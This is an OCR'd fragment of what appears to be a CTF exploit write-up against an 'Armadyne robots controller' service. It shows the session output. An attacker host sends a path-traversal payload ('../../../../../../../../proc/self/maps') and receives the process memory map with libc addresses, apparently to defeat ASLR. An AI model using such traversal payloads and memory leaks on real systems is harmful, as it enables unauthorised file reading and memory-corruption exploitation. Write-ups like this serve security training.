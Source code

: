```
                        datasz = datasz - len(chunk)
                        data = ""
```

The output seems concluding:

```
====== FROM 54.76.18.92 ======
Armadyne robots controller
====== FROM 54.76.18.92 ======
1) Get informations <name>
2) List units
3) Add medical units <count>
4) Add military units <count>
5) Add social units <count>
6) Add spy units <count>
7) Add shields units <count>
8) Add communication units <count>
9) Add transport units <count>
a) Add computer units <count>
*) Exit
====== FROM 192.168.79.67 ======
21ed4c7af50d987589a9029fc0422151be3a0fc2:2
====== FROM 54.76.18.92 ======
Total units : 4658
Medical units : 900
Military units : 220
Social units : 249
Spy units : 91
Shield units : 646
Communication units : 921
Transport units : 807
Computer units : 824
Available units : 3534
====== FROM 54.76.18.92 ======
1) Get informations <name>
2) List units
3) Add medical units <count>
4) Add military units <count>
5) Add social units <count>
6) Add spy units <count>
7) Add shields units <count>
8) Add communication units <count>
9) Add transport units <count>
a) Add computer units <count>
*) Exit
====== FROM 192.168.79.67 ======
ad627891fd066f3a7c9b613b99c5c0f9c473e7f9:1 ../../../../../../../../proc/self/maps
====== FROM 54.76.18.92 ======
b7422000-b7424000 rw-p 00000000 00:00 0 
b7424000-b7427000 r-xp 00000000 ca:01 132831     /lib/i386-linux-gnu/libdl-2.19.so
b7427000-b7428000 r--p 00002000 ca:01 132831     /lib/i386-linux-gnu/libdl-2.19.so
b7428000-b7429000 rw-p 00003000 ca:01 132831     /lib/i386-linux-gnu/libdl-2.19.so
b7429000-b75d2000 r-xp 00000000 ca:01 132822     /lib/i386-linux-gnu/libc-2.19.so
b75d2000-b75d3000 ---p 001a9000 ca:01 132822     /lib/i386-linux-gnu/libc-2.19.so
b75d3000-b75d5000 r--p 001a9000 ca:01 132822     /lib/i386-linux-gnu/libc-2.19.so
b75d5000-b75d6000 rw-p 001ab000 ca:01 132822     /lib/i386-linux-gnu/libc-2.19.so
b75d6000-b75d9000 rw-p 00000000 00:00 0 
b75d9000-b776c000 r-xp 00000000 ca:01 147354     /lib/i386-linux-gnu/libcrypto.so.1.0.0
b776c000-b777b000 r--p 00193000 ca:01 147354     /lib/i386-linux-gnu/libcrypto.so.1.0.0
b777b000-b7782000 rw-p 001a2000 ca:01 147354     /lib/i386-linux-gnu/libcrypto.so.1.0.0
b7782000-b7785000 rw-p 00000000 00:00 0 
b7789000-b778a000 rw-p 00000000 00:00 0 
b778a000-b778f000 rw-p 00000000 00:00 0 
```